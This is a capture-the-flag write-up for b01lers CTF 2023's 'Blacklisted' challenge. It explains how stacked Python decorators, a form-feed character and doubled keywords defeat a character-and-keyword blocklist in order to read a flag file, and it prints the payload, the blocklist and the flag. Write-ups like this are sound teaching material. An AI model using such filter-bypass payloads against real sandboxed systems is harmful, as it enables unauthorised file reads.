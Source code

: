 ```yaml
---
title: Blacklisted - b01lers CTF 2023
author: CygnusX26
date: 01-30-2023
image: great-wall-svgrepo-com.svg
---
```


# Blacklisted
## Final Solution:

```python
>>> @pprintrint
>>> @sorted
>>> @oopenpen
>>> @input
>>> class^LX:pass
```
type in:
```
secret_folder/flag.txt
```
## Explanation

After looking at the blacklist string we realize that most of the things we could use for functions
are blacklisted. Even the space character isn't allowed!

`blacklist = "._0x6/|?*[]{}<>\"'=()\\\t "`

and

`blacklist2 = ['eval', 'exec', 'compile', 'import', 'os', 'sys', 'cat', 'ls', 'exit', 'list', 'max', 'min', 'set', 'tuple']`

You should notice that the @ character is allowed. Signifiying that we can use decorators to bypass the restrictions.

Python decorators work in the following way:

```python
@print
@input
class X:
    pass
```

is equivalent to:

```python
X = input(X)
X = print(X)
```

So we need someway to get the secret_folder/flag.txt file using just these decorators.
We know that the open function in python allows us to read in a file. 
So we can use the open decorator to read in the file specified by input.

This would look something like the following:

```python
@print
@open
@input
class X:
    pass
```

which is equivalent to:

```python
X = input(X)
X = open(X)
X = print(X)
```

A problem can be spotted when running this code, however, because the open function returns a file object, not the file contents. So we get something that looks like this:

```python
<_io.TextIOWrapper name='sample_file_name' mode='r' encoding='UTF-8'>
```

We need to get the contents of the file, not the file object. A file object is considered an iterable in python, so we can use a function that takes in an iterable. The sorted function does this. So we can use the sorted decorator to get the contents of the file.

```python
@print
@sorted
@open
@input
class X:
    pass
```

Running this code in a python file gives us file read access, but we notice that this code is not working in the interpreter. This is because of the blacklists. We aren't allowed to use spaces, in `class X:`. A simple fix for this is to use the formfeed character, which has similar properties to a space in python. This is allowed in the blacklist, so we can use it to bypass the space restriction. "" is the formfeed character.


Another thing we realize is that the `open` and `print` words are also blacklisted. This is an easy bypass as we can just replace them with `pprintrint` and `oopenpen` respectively. This works because `print` and `open` get substituted in for empty characters.

This gives us our final payload:

```python
@pprintrint
@sorted
@oopenpen
@input
class^LX:pass
```
Note ^L is the formfeed character.

Which when run, all we have to do is type in the flag file name and we get the flag returned to us as a list.

> `bctf{w41t_h0w_d1d_y0u_d3c0r4t3_th4t?}`


